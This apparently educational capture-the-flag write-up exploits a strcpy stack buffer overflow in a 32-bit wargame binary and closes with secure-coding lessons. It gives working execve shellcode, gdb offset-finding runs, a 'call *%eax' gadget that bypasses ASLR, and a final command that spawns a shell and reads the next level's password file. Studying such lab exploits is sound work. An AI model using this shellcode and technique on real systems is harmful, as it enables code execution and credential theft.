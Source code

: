 ## Level 4: always check array boundaries

The source code on this level is surprisingly simple:
```
void fun(char *str) {
  char buf[1024];
  strcpy(buf, str);
}

int main(int argc, char **argv) {
  // ... 
  fun(argv[1]);
  // ... 
}
```

There is an obvious problem here:
`strcpy` is well-known to be unsafe,
as it does not check if the destination array has enough space to store the source array.
With a sufficiently long command line argument we can overwrite the memory area beyond `buf` in the `fun` function.

If you recall from the previous challenge,
in the OS of our live CD,
the return address is stored on the stack after local variables.
That means that by overwriting `buf`,
we can overwrite the return address,
which in turn means that we can make the program jump to anywhere we want.

In the previous challenge we overwrote the return address to jump to the insecure function `run`.
In this case, however,
we don't have such insecure function within the program,
and thus no easy place to jump to.
On the other hand,
perhaps we can bring into the program our own code using the input string,
and then write over the end of the buffer to jump to our code.

What kind of code do we want to write to the input string?
The simplest possible code that will be useful for us is something that executes `/bin/sh`, also known as *shellcode*.
How can we write such code into the input string?
We could insert the binary content of the compiled shellcode the same we inserted the return address in binary form.

Writing the shellcode itself is beyond the scope of this article.
It is thoroughly explained in the Smash The Stack article,
see in the resources.
Essentially it is a modified version of this simple C program:
```
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
If you just compile this code and take its binary content to insert as the shellcode,
it won't work, for several reasons.
It is necessary to modify the machine language instructions,
among other things,
to eliminate null bytes from it.
This is necessary,
because `strcpy` stops copying at the first null character it sees,
which would break the shellcode.
There are many more important details to writing a suitable shellcode,
you can read more about it in the Smash The Stack article.

For our purposes,
we will take the finished shellcode from the Smash The Stack article:
```
char shellcode[] =
        "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
        "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
        "\x80\xe8\xdc\xff\xff\xff/bin/sh";
```
Let's save it in the environment variable `EGG`:
```
EGG=$(printf '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')
```
Next,
like in the previous challenge,
we need to find the right position in the input spring where we can overwrite the return address.
We know that the content of the stack will look like this when we are inside `fun`:
```
0x0000      content of the local variable buf (1024 bytes)
0x0400+?    the return address
```
That is, the return address is somewhere soon after the end of the buffer.
We can find the right position using `gdb`.
When we overwrite the return address with something invalid,
the program crashes with segmentation fault.
When `gdb` reaches such code,
it prints out this wrong address.
With a suitable input string and the output `gdb`,
we can find out the precise location we will want to overwrite.

Let's start the debugger,
and run the program with a crafted input string,
hopefully overwriting the return address:
```
level03@box:/levels/level04$ gdb ./level04
(gdb) run $(python -c 'print "A" * 1100')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1100')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
Good, we have successfully overwritten the return address with "A"s.
Let's try a shorter string,
and something that will help us guess the correct position better:
```
(gdb) run $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')

Program received signal SIGSEGV, Segmentation fault.
0x706f6e6d in ?? ()
```
70, 6f, 6e, 6d, that's a decreasing sequence,
so it must be somewhere in our `abcd...xyz` sequence.
We can know exactly if we check the hexadecimal codes of our sequence:
```
$ echo abcdefghijklmnopqrstuvwxyz | hexdump -C
00000000  61 62 63 64 65 66 67 68  69 6a 6b 6c 6d 6e 6f 70  |abcdefghijklmnop|
00000010  71 72 73 74 75 76 77 78  79 7a 0a                 |qrstuvwxyz.|
0000001b
```
As `m=6d n=6e o=6f p=70`,
the return address is in the position of the letters `mnop`.
Since there are 12 letters before "m",
we can calculate that we need an input string of length 1024 + 12 + 4,
where the last 4 bytes will be the address we want to jump to.
Let's verify this final number with one last test in `gdb`:
```
(gdb) run $(python -c 'print "A" * 1036 + "mmmm"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1036 + "mmmm"')

Program received signal SIGSEGV, Segmentation fault.
0x6d6d6d6d in ?? ()
```
Ok that's really the one.
What next?
Our string should start with the shellcode,
followed by some padding until 1036 bytes,
and finally the address to jump to.
We can confirm the size of our shellcode using `wc -c`:
```
$ printf $EGG | wc -c
45
```
Thus, we will need 1036 - 45 = 991 padding characters.
But what about the address?
We want to jump to the address of `buf`,
but how can we know that?
Unfortunately, we cannot.
In the past,
the stack used to be always at the same address in memory,
which was relatively easy to exploit.
If you could get your shellcode on the stack,
it was relatively easy to guess the right address to jump at.
As of today,
this is no longer feasible,
thanks to the address space layout randomization (ASLR) used in modern operating systems.

So what can we do?
After hours of poking around,
I stumbled upon some interesting details which can be combined to an interesting effect:

- On 32-bit x86 processors (the architecture of the live CD),
  a function that returns a pointer value places its result in register `%eax`.

- There happen to be addresses inside the program which execute the code at the address stored in register `%eax`.

- `strcpy` is the last call in the function `fun`.

What happens is,
the `strcpy` will return the address of the destination array `buf`,
which will be stored in register `%eax`.
And since it is the last line of code in the function,
the register will still contain the address of `buf` when the function returns.
Thus,
if we overwrite the return address in the memory with the address that executes jumping to the content of `%eax`,
and consequently `buf`,
our shellcode will get executed.

We can find the location of calls with register `%eax` with:
```
level03@box:/levels/level04$ objdump -d level04 | grep call.*eax
 8048488:   ff 14 85 1c 9f 04 08    call   *0x8049f1c(,%eax,4)
 80484cf:   ff d0                   call   *%eax
 80485fb:   ff d0                   call   *%eax
```
That's it, we can use either `0x080484cf` or `0x080485fb` as the address to jump to.
```
level03@box:/levels/level04$ ./level04 $EGG$(python -c 'print "A" * 991')$(printf '\xcf\x84\x04\x08')
/levels/level04 $ cat /home/level04/.password 
paegeiqu
```

What can we learn from all this?

- Don't use unsafe functions like `strcpy`.
  Stick to their safer versions like `strncpy`.

- Always make sure that arrays cannot be accessed beyond their boundaries.

- Always validate user input, and set reasonable limits to the length.


